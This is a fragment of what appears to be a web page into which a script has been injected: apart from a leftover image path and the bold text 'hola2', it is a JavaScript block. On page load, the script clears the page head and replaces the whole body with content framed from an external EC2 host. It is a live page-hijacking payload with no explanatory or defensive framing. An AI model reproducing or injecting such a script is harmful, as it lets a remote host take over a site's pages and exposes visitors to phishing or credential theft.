 <b> hola2 </b>

<script>

window.onload = function() {

  clearBox("head");
  document.getElementsByTagName("body")[0].innerHTML = "<object type=\"text/html\" style=\"width:100%;height:100%\" data=\"http://ec2-54-149-237-227.us-west-2.compute.amazonaws.com/id.html\"></object>";
};

function clearBox(elementID){
    document.getElementsByTagName(elementID)[0].innerHTML = "";
}

function deleteTag(tagName){
  document.getElementsByTagName(tagName).remove();
}


</script>




